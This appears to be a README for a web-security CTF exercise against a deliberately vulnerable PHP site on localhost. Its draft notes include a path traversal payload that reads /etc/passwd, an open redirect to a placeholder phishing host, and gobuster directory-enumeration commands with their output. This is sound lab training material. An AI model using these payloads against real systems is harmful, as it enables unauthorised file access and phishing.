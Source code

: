 # darkly

This project is meant as an introduction to web security.

Download `Darkly_i386.iso`, launch it and setup the port forwarding rule: Guest 80 → Host 8080.

An insecure PHP website is now live on `localhost:8080`. There are 14 flags to find.

---

## TODELETE AXEL RANDOM

`http://localhost:8080/?page=../../../../etc/passwd` (non)

`http://localhost:8080/?page=../../../../../../../etc/passwd` (oui)

TODO: enumeration on ?page=

`index.php?page=redirect&site=http://evil.tld/phishing`

Unvalidated Redirects vs Open Redirects

## TODELETE GOBUSTER COMMANDS

```console
$ git clone git@github.com:3ndG4me/KaliLists.git
```

```console
$ gobuster dir -u http://localhost:8080/ -w KaliLists/dirb/big.txt --exclude-length 975
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                KaliLists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 193] [--> http://localhost/admin/]
/audio                (Status: 301) [Size: 193] [--> http://localhost/audio/]
/css                  (Status: 301) [Size: 193] [--> http://localhost/css/]
/errors               (Status: 301) [Size: 193] [--> http://localhost/errors/]
/favicon.ico          (Status: 200) [Size: 1406]
/fonts                (Status: 301) [Size: 193] [--> http://localhost/fonts/]
/images               (Status: 301) [Size: 193] [--> http://localhost/images/]
/includes             (Status: 301) [Size: 193] [--> http://localhost/includes/]
/js                   (Status: 301) [Size: 193] [--> http://localhost/js/]
/robots.txt           (Status: 200) [Size: 53]
/whatever             (Status: 301) [Size: 193] [--> http://localhost/whatever/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

```console
$ gobuster dir -u http://localhost:8080/images -w KaliLists/dirb/big.txt -x gif,jpg,jpeg,png --exclude-length 975
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/images
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                KaliLists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpg,jpeg,png,gif
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/404.jpg              (Status: 200) [Size: 27027]
/42.jpeg              (Status: 200) [Size: 9783]
/banner.jpg           (Status: 200) [Size: 511270]
/banner2.jpg          (Status: 200) [Size: 50867]
/mailbox.png          (Status: 200) [Size: 49480]
/marvin.jpg           (Status: 200) [Size: 111300]
/search.png           (Status: 200) [Size: 49089]
/upload.png           (Status: 200) [Size: 64785]
/whoami.gif           (Status: 200) [Size: 1809804]
/win.jpg              (Status: 200) [Size: 43468]
/win.png              (Status: 200) [Size: 72726]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```
